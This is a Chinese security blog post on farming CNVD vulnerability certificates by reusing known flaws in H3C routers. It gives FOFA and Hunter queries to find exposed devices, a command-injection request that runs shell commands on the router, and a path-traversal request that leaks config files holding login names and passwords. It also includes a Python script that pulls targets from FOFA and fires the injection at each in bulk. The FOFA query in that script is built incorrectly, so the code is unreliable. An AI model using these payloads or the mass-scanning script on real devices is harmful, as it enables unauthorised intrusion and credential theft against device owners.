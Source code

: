 #  CNVD通用型漏洞挖掘-cnvd证书的刷洞技巧   
 Z2O安全攻防   2024-12-01 13:19  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1XPO4ohbm1iaewicchqAkAp40qibySic2QYQAFYqVaLOd8AzL7ic9m3Yfghmt1kvo3ib2hEfnMVTGBus91/640?wx_fmt=svg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1XPO4ohbm1iaeU0ZSIviaEWPbdib6r7SwZM46RAtLmScgwXmd8VJrWAbDOsibnvaewBpicKEAwIb0ibniaF/640?wx_fmt=svg&from=appmsg "")  
  
  
> 该篇是利用nday或者1day来进行捡漏的刷洞技巧通用型:中危及中危以上的通用性漏洞（CVSS2.0基准评分超过4.0）软件开发商注册资金大于等于5000万人民币并且十个URL案例(3个复现,剩下7个贴上URL即可)  
  
  
  
fofa  
  
# 找网络设备(有多种型号的)  
  
  
  
这里的刷洞技巧就是需要有多种型号的,有多种型号就有机会捡漏到cnvd证书(本文举例H3C的设备)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UtqE5xShKic846qtPARGXKQSUrakobgdXpqgUiaSs0h4PzY9mfKLh32Jw/640?wx_fmt=png&from=appmsg "图片")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UO2r8HlotvALwJmKiarhrXYr751sYlNMCUvicttdN38uT76EmS3RH630A/640?wx_fmt=png&from=appmsg "")  
  
这里比如挑选H3C的网络设备进行刷洞,可以看到有多种型号  
  
然后再搜一搜  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UHXpqFNIeiaDf1IxyjgPS7oVRqtqyTH1k31yp5XicyYca0R4842iaW7bfA/640?wx_fmt=png&from=appmsg "")  
  
资产发现:  
  
fofa：app="H3C-Ent-Router"hunter：app.name="H3C Router Management"  
  
  
漏洞1:  
  
H3C多系列路由器存在前台RCE漏洞> 漏洞编号：> 漏洞说明：Referer: http://{{Hostname}}/userLogin.asp访问http://xxx/test> 漏洞特征：> 验证脚本：HTTP```POST /goform/aspForm HTTP/1.1Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedCMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1; $(ls>/www/test);```> 响应代码特征:302  
  
  
漏洞2:  
  
H3C多系列路由器存在任意用户登录漏洞> 漏洞编号：> 漏洞说明：根据根据系统名修改payload 中的 ER2200G2.cfg> 漏洞特征：> 验证脚本：HTTP```GET /userLogin.asp/../actionpolicy_status/../{设备型号}.cfg HTTP/1.1Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close```> 响应代码特征：200> 响应内容特征：^(?=.*?vtyname)(?=.*?vtypasswd).*?$漏洞1复现截图:  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UXtw4fZpGzT9OJG2NPtz32xsKaN6x24VvEDDJv0p7SxuLWtZpkyTKEQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UgawzOWuFKD0wl13bux1DibFicqPceEjQYcia9LmRS1Th6btWwm81CnEPw/640?wx_fmt=jpeg&from=appmsg "")  
  
响应包为302  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UEJdIzUC94olwFLHokCiaHSziat0PDJ1QUjPCr50uwJwLjhibMSBldbiciaA/640?wx_fmt=jpeg&from=appmsg "")  
  
访问/test获得执行结果  
  
  
漏洞2复现截图:  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UXtw4fZpGzT9OJG2NPtz32xsKaN6x24VvEDDJv0p7SxuLWtZpkyTKEQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UHgA8yWx65UM3ZHuYWhgZd2L8dUczvWchCDn5hXYYu2pEKywX5caTsA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UuVICKxic3y4F2HvVRyRpmclmLc7hT6KA0HkltcxZ0LndCsUFsqLTgsA/640?wx_fmt=jpeg&from=appmsg "")  
  
获得账号和密码即可登录  
  
然后我们写个批量poc检测脚本(这里是用的漏洞1):  
```
import requests

# 设置 FOFA API Key 和查询语句
FOFA_EMAIL = "your_email@example.com"
FOFA_KEY = "your_fofa_api_key"
QUERY = 'app="H3C-Ent-Router"'

# 使用 FOFA 获取目标资产列表
def get_targets():
    url = "https://fofa.info/api/v1/search/all"
    params = {"qbase64": FOFA_KEY.encode("utf-8").hex() + "=" + QUERY.encode("utf-8").hex(),
              "email": FOFA_EMAIL }
    response = requests.get(url, params=params)
    if response.status_code == 200:
        results = response.json()
        return [result[0] for result in results["results"]]
    else:
        raise Exception("Failed to retrieve targets from FOFA")

# 构造并发送包含 pop 参数的 POST 请求
def send_request(target_url):
    url = target_url + "/goform/aspForm"
    headers = {"Accept-Encoding": "gzip, deflate",
               "Content-Type": "application/x-www-form-urlencoded",
               "Referer": target_url + "/userLogin.asp",
               "Accept-Encoding": "gzip"}
    data = {"CMD": "DelL2tpLNSList", "GO": "vpn_l2tp_session.asp", "param": "1; $(ls>/www/test);" }
    response = requests.post(url, headers=headers, data=data, allow_redirects=False)
    if response.status_code == 302:
        url = target_url + "/test"
        kali = requests.get(url,verify=False)
        if kali.text == "var":
            print(f"[+] Target {target_url} is vulnerable!")

    else:
        print(f"[-] Target {target_url} is not vulnerable.")

# 获取目标资产列表，并逐个发送请求
targets = get_targets()
for target in targets:
    try:
        send_request(target)
    except Exception as ex:
        print(f"[-] Failed to test target {target}: {ex}")
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oPgdHzwtAqlxHmMOIY5g4UlY6HfZZSQXIVw4vuUr4lzU1d0LZ658mI6LkQXIof1ScfhXEFxgoyNg/640?wx_fmt=png&from=appmsg "")  
  
再根据你找的这个型号在cnvd官网查一下,没有我们就可以尝试提交  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oMdtUurG65rDSTnLakWIGWxuujezbYPTFpzn2WdKEClA2gY5bDLVicsMohQldibHPxRzYBXXt3gG6Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oMdtUurG65rDSTnLakWIGWYFtQh4KNePWIlsgcj0fjbsatuzthGUGLDVkQNLPfFnaklUTiaNY8Ywg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8oyzrJMb9UvUBTKdrt26fIeMzuiaBJ3SkB5WuySHicMUjaMG4JAO2lHekcLYdFyxcV3VgwCpuOkJqWw/640?wx_fmt=png&from=appmsg "")  
  
这些都可以去试试其他的型号  
,  
捡漏成功就是一张证书  
  
建立了一个  
src专项圈子，内容包含**src漏洞知识库**、**src挖掘技巧**、**src视频教程**等，一起学习赚赏金技巧，以及专属微信群一起挖洞  
  
圈子专注于更新src相关：  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、分享src优质视频课程
3、分享src挖掘技巧tips
4、小群一起挖洞
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOABrvjQvw6cnCXlwS05xyzHjx9JgU7j83aReoqqUbdpiaMX2HeudxqYg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOXg868PqXyjsACp9LhuEeyfB2kTZVOt5Pz48txg7ueRUvDdeefTNKdg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8P1KUHOKuYNrQ0ia0KSCzpoSaxj6aRms9a99VzT8j2w5PUvhovoSX9F2G0icerjj276GFzwI6XIrJoFYwzK1OpQ/640?wxfrom=12&tp=wxpic&wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuYrUoo5XZpxN9Inq87ic71D6aUeMdaWrKXgYYia2On8nMA7bqWDySa8odAq1a0kkp3WFgf0Zp0Eut0A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8P1KUHOKuZDDDv3NsbJDuSicLzBbwVDCPFgbmiaJ4ibf4LRgafQDdYodOgakdpbU1H6XfFQCL81VTudGBv2WniaDA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKub5zKpgA0HmT6klBJg9IugIx3z6YtXqmOkmp18nLD3bpyy8w4daHlAWQn4HiauibfBAk0mrh2qNlY8A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKub5zKpgA0HmT6klBJg9IugI5tZcaxhZn1icWvbgupXzkwybR5pCzxge4SKxSM5z4s9kwOmvuI3cIkQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
图片  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOHgjJxnq1ibibJgVUx3LwCjZj62vygx8w6rxia1icmIWiax2YlP6S6LmlmlQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOApVm8H605qOibxia5DqPHfbWD6lmcweDjGv4DLl45waD068ugw2Iv2vg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOwldaSATYOh1WQpk1qz15rLxehOAn4aK7tdbSyNEuHDZpIISCtl6Q8w/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKub5zKpgA0HmT6klBJg9IugIstia27YLJFBtC5icJO6gHLLgzRDqib6upI3BsVFfLL02w6Q8jIRRp0NJA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuYrUoo5XZpxN9Inq87ic71D6JWUFIwPbP7Au1PYLXTplb3bbFZFlaYDtXXTqPdzOO6iaFz8F7r8WUPw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1XPO4ohbm1iaeO1Aq5AreyjicBKRbVLPkdsVFicCT5lg16sFH693fbkwbnIicS3Vr29KXW83guicLdhUo/640?wx_fmt=svg&from=appmsg "")  
  
  
~  
  

